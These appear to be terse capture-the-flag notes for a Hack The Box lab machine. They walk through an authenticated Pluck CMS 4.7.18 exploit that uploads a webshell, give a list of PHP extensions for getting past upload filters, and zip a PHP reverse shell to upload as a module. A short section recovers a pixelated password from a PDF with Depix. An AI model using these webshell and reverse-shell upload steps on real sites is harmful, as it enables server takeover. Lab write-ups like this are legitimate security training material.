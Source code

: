 ### Pluck CMS 4.7.18

[https://www.exploit-db.com/raw/49909](https://www.exploit-db.com/raw/49909)

[https://codingninjablogs.tech/tryhackme-dreaming-pluck-cms-44575d7e558a](https://codingninjablogs.tech/tryhackme-dreaming-pluck-cms-44575d7e558a)

User Input:

```
target_ip = sys.argv[1]
target_port = sys.argv[2]
password = sys.argv[3]
pluckcmspath = sys.argv[4]

python3 exploit.py greenhorn.htb 80 iloveyou1 /
Authentification was succesfull, uploading webshell
Uploaded Webshell to: 
http://greenhorn.htb:80//files/shell.phar

data/inc/files.php: $blockedExtentions = array('.php','php3','php4','php5','php6','php7','phtml','.phtm','.pht','.ph3','.ph4','.ph5','.asp','.cgi','.phar');
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```

* file upload is not working well

[https://www.youtube.com/watch?v=GpL\_rz8jgro](https://www.youtube.com/watch?v=GpL_rz8jgro)

* go to [http://greenhorn.htb/admin.php?action=installmodule](http://greenhorn.htb/admin.php?action=installmodule)

```
zip test.zip php-rev.php
adding: php-rev.php (deflated 59%)
```

* upload the zip

### De-Pixel PDF to find password

* depixel file to get password

```
https://pdf2png.com/
// tool
https://github.com/spipm/Depix
python3 depix.py \
    -p ../../image_page_1_1.png \                    
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-07-25 19:31:34,915 - Loading pixelated image from ../../image_page_1_1.png
2024-07-25 19:31:34,929 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-07-25 19:31:35,788 - Finding color rectangles from pixelated space
2024-07-25 19:31:35,790 - Found 252 same color rectangles
2024-07-25 19:31:35,790 - 190 rectangles left after moot filter
2024-07-25 19:31:35,790 - Found 1 different rectangle sizes
2024-07-25 19:31:35,790 - Finding matches in search image
2024-07-25 19:31:35,790 - Scanning 190 blocks with size (5, 5)
2024-07-25 19:31:35,829 - Scanning in searchImage: 0/1674
```

